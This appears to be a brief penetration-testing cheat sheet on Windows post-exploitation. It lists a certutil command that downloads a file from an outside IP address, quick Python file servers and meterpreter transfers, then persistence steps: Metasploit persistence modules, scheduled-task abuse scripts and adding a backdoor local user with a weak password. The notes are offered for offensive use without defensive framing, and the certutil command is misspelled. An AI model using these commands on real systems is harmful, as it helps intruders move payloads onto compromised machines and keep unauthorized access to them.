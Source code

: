 # Post exploitation

transfer file:

```
certutill.exe -urlcache -f http://1.1.1.1/asd.txt asd.txt

python -m SimpleHTTPServer 80

python -m pyftpdlib 21

wget

upload/download with meterpreter
```

Maintaining access:

```
persistence -h

exploit/windows/local/persistence
exploit/windows/local/registry_persistence

run scheduleme
run shtaskabuse

net user someuser password123 /add
```
